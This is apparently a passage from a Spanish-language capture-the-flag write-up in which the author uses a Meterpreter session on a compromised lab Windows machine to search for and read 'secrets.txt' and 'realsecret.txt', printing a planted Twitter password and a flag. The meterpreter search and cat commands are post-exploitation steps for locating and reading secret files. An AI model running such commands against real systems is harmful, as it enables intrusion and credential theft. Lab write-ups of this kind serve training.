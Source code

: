 ## ¿Dónde se encuentra el archivo "secrets.txt"? (Ruta completa del archivo)  
Para esto vamos a utilizar el comando search
```sh imp=7 mar=1
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100
```
## ¿Cuál es la contraseña de Twitter revelada en el archivo "secrets.txt"?  
para esto, vamos a hacer un cat entre comillas dobles
```sh mar=1 imp=2
meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
My Twitter password is KDSvbsw3849!
```

## ¿Dónde se encuentra el archivo "realsecret.txt"?  (Ruta completa del archivo)  
Para esto nuevamente vamos a utilizar el comando search
```sh mar=1 imp=7
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100
```

## ¿Cuál es el verdadero secreto?  
para esto, vamos a hacer un cat entre comillas dobles
```sh imp=2 mar=1
meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"
The Flash is the fastest man alive
```